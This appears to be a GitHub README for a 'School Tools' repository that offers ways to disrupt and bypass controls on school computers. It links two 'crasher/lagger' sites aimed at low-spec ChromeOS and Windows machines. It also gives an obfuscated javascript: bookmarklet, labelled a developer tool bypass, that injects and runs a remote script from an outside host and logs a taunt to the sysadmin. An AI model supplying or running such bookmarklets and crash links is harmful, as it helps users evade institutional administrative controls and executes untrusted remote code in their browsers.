 # School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/) ```http://bongo-hates-python.cf/```
+ [Crasher/lagger](https://crash.drugs4children.org/) ```https://crash.drugs4children.org/```

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22L%2C%20sysadmin%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fdrugs4children.org%2FGetSource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
